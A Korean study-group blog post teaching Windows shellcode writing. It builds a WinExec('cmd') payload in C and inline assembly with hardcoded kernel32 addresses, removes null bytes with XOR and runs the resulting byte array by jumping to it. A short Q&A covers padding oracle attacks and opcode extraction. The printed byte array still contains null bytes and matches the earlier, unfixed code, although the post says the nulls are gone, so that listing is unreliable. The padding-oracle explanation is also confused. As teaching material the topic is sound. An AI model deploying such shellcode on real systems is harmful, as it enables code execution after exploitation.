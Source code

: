 ```yaml
---
layout: post
title: SUA 시스템 해킹 스터디
---
```


### 170822 3주차

이제 본격적으로 윈도우 시스템 해킹을 다룰 것이다. 저번 Exploit 예제에서 봤듯이 쉘코드는 공격이 성공한 후 실행을 시킬 실질적인 코드를 말한다.

<br>
## 1. 쉘코드 작성 원리

공격이 성공하고 원하는 코드를 실행시키려면 미리 만들어둔 기계어 코드가 필요하다. 공격이 성공하면, 프로그램 실행 흐름을 바꿔서 공격자가 원하는 특정 주소로 이동할 수 있다. CPU는 흐름이 바뀐 메모리에서 직접 코드를 읽으려 하므로 CPU가 해석할 수 있는 기계어 코드가 필요하다.

쉘코드를 작성하기 위한 기본 지식은 C언어, 어셈블리어, 디버깅 스킬이면 충분하다. 간단하게 하나 작성해 보자.

**shellcode_cmd.cpp**

```c
#include "stdafx.h"
#include "windows.h"

int _tmain(int argc, TCHAR* argv[])
{
  char cmd[4] = {'c', 'm', 'd', '₩x0'};
  WinExec(cmd, SW_SHOW);
  ExitProcess(1);
}
```
> cmd 명령을 실행하는 프로그램을 작성했다. 여기서 명령을 실행하는 함수는 WinExec()다.

디스어셈블리로 쉘코드 프로그램의 어셈블리어를 추출한 후, 이를 어셈블리어로 다시 작성하자.

**shellcode_cmd2.cpp**

```c
asm {
	// cmd
	mov		byte ptr[ebp - 4], 63h  // 'c'
	mov		byte ptr[ebp - 3], 6Dh  // 'm'
	mov		byte ptr[ebp - 2], 64h  // 'd'
	mov		byte ptr[ebp - 1], 0    // '₩x0'
	// call WindExec('cmd', SW_SHOW)
	push	5                       // SW_SHOW
	lea		eax, [ebp - 4]          // eax에 'cmd' 문자열 저장
	push	eax                     // 스택에 'cmd' 문자열 주소 push
	mov		eax, 0x76b32b00         // eax에 WinExec 함수 주소 저장
	call	eax                     // WinExec 함수 실행
	// call ExitProcess(1)
	push	1
	mov		eax, 0x76af3cb0
	call	eax
};
```
> WinExec() 함수 부분을 보면, 인자값 2개를 역순으로 스택에 PUSH한 뒤, 함수 주소를 CALL 명령으로 호출한다. 저기서 0x76b32b00라는 함수 주소는 간단한 스크립트로 가져올 수 있다. 함수의 주소값은 DLL이 로드되는 주소에 따라 달라지며, 윈도우에서 부팅할 때마다 kernel32.dll이 로드되는 주소가 바뀐다. 그래서, 현재 시스템에서 직접 주소값을 꼭 확인하자.

위 예제 `shellcode_cmd.cpp`와 `shellcode_cmd2.cpp` 둘 다 컴파일 후 실행하면 같은 cmd 명령이 실행된다. 하지만, 쉘코드 중간에 널바이트인 0x00이 들어가 있어서 C언어 문자열 복사 계열 함수에서 발생하는 취약점에 사용할 수 없다. 공격할 때, 쉘코드가 모두 복사되지 않고 중간에 끊어지면 공격에 실패하므로 공격의 안정성을 위해 널바이트를 제거하자.

<br>
## 2. 널바이트 제거

널바이트를 제거하는 여러 방법이 있다. 위 예제의 쉘코드에서는 cmd 문자열 뒤에 '0'을 넣는 과정에서 널바이트가 발생했다. 이를 가장 쉽게 해결하려면, '0'을 직접 쓰는 대신 레지스터나 메모리를 0으로 만든 후 해당 레지스터를 이용하며 된다. 풀이는 다음과 같다.

**shellcode_cmd3.cpp**

```c
asm {
		// cmd
		xor		ebx, ebx
		mov		[ebp-4], ebx
		mov		byte ptr[ebp - 4], 63h
		mov		byte ptr[ebp - 3], 6Dh
		mov		byte ptr[ebp - 2], 64h
		//mov		byte ptr[ebp - 1], 0
		// call WindExec('cmd', SW_SHOW)
		push	5
		lea		eax, [ebp - 4]
		push	eax
		mov		eax, 0x76b32b00
		call	eax
		// call ExitProcess(1)
		push	1
		mov		eax, 0x76af3cb0
		call	eax
	};
```
> XOR을 통해 ebx 레지스터를 0으로 초기화하고, ebx 레지스터를 ebp-4의 주소에 넣어줘서 기존의 `mov byte ptr[ebp-1], 0` 코드를 대체할 수 있다.

널바이트를 제거한 후, 변경한 코드를 컴파일하여 쉘코드를 확인하면 아래와 같다.

```c
#include "stdafx.h"
#include "windows.h"

char shellcode[] = "\xc6\x45\xfc\x63"
				           "\xc6\x45\xfd\x6d"
				           "\xc6\x45\xfe\x64"
				           "\xc6\x45\xff\x00"
				           "\x6a\x05"
				           "\x8d\x45\xfc"
				           "\x50"
				           "\xb8\x00\x2b\xb3\x76"
				           "\xff\xd0"
				           "\x6a\x01"
				           "\xb8\xb0\x3c\xaf\x76"
				           "\xff\xd0";

int _tmain(int argc, TCHAR* argv[])
{
	int * shell = (int*)shellcode;
	asm {
		jmp shell;
	}
}
```
> 쉘코드에 널바이트가 없어진 걸 확인할 수 있다. 컴파일 후 실행하면 동일한 cmd 명령이 실행된다.

널바이트를 제거하는 다른 방법들은 다음과 같다.

- **널바이트가 들어가지 않은 명령어로 대체**
  - 예를 들어, `mov eax, 12h`을 `push 12h, pop eax`로 대체할 수 있다.

- **32비트 레지스터가 아닌 16비트, 8비트 레지스터 사용**
  - 32비트 레지스터는 상황에 따라 16비트, 8비트로도 사용할 수 있다. 예를 들어, 0x12를 표현할 때, 32비트 레지스터는 0x00000012로 써야하지만, 8비트로 표현하면 0x12가 된다. (*mov eax, 12h -> mov al, 12h*)
- **ADD, SUB 등의 연산 명령 사용**
  - 위 방법과 마찬가지로 ADD와 SUB 등 연산 명령을 사용할 수 있다. 예를 들어, `mov eax, 12h`을 `add eax, 12h`로 바꿀 수 있다.

이 외에도 다양한 방법들이 있으니 직접 연구해 보자.

<br>
## [질문 내용 정리]

- **Padding Oracle Attack 의미?**

암호학에서 블록 암호화할 때, 평문 데이터를 고정된 크기의 블록으로 채우고, 블록의 나머지 부분을 패딩(*Padding*)으로 채운다. 만약에 평문 데이터가 블록 크기의 배수일 경우, 패딩으로 채운 빈 블록이 생성된다. 평문 데이터의 마지막 블록이 1(*0x01*) 같이 숫자 또는 문자열이면 패딩(*0x13, 0x03, 0x18 등*)과 구분하기 어렵기 때문이다. 평문 데이터가 특정 블록 크기 만큼 채워져 있지 않으면 그 블록까지만 패딩으로 채워진다. 패딩 오라클 공격(*Padding Oracle Attack*)은 이 패딩이 올바르게 채워져 있는 지 여부에 따라 오라클(*여기서는 서버를 의미함. 응답에 대한 판독 절차 수행하는 쪽*)의 응답이 달라져서 발생하는 공격이다. 이 공격은 블록 암호화를 사용하는 CBC(*Cipher Block Chaining*) 모드 방식 암호화에서 주로 발생하며, 암호문을 오라클로 보냈을 때 오라클이 복호화하면서 올바른 패딩인지 아닌지'만' 확인해 준다는 것에서 착안한 공격이다. 8바이트 블록 기준, 패딩이 1~8개일 때까지의 경우를 모두 생각해서 IV(*Initialization Vector*)를 대입하고, 응답을 확인하면서 공격 벡터를 늘려가면 Intermediary Value를 알 수 있다. 결과적으로, Intermediary Value 값을 알면 '평문 - 어떤 암호 알고리즘 - (1차 암호문, Intermediary Value) - IV와 XOR - 최종 암호문' 과정에서 평문에 사용한 어떤 암호 알고리즘을 추측할 수 있으며, 평문 값도 알 수 있게 된다.

- **Opcode, Bytecode?**

프로세서가 메모리부터 읽고 명령을 수행할 때 필요한 일련의 값들을 기계어 코드라고 부르며 디스어셈블러, 디버깅 프로그램에서 표시된다. 이 기계어 코드 중 프로세서에 의해 바로 실행하는 게 아닌 인터프리터 기반(*자바 or CLR*) 소프트웨어에서 사용될 때 Bytecode(*바이트 코드*)라고 불린다. Opcode(*Operation Code, 명령 코드*)는 가상 또는 실제 시스템에서 어떤 동작을 수행하는 명령어를 알려주는 숫자들이다. 이 명령들은 메모리 상에 16진수 숫자로 표시되며, 예를 들어 0x1F38520A에서 0x1F가 "ADD"를 뜻할 때, 0x1F는 "ADD" 명령어의 Opcode라고 부른다.

- **Opcode(코드 바이트로 표기)를 추출해서 C언어로 Shellcode 작성할 때 깔끔(?)하게 추출하는 방법?**

이럴 때 기본적으로 사용할 수 있는 건 IDE, 디스어셈블러, objdump 외 다른 변환 툴이다. ex) objdump -D -j .data test.o, ex) gdb에서 디스어셈블 후, x/bx + 엔터를 치면 어셈블리어 명령어가 하나씩 16진수로 표기됨?

- **널바이트 제거 시 함수 주소값에 널바이트가 있으면?**

주소에 있는 널바이트는 바이트 단위로 주소를 저장하면 해결
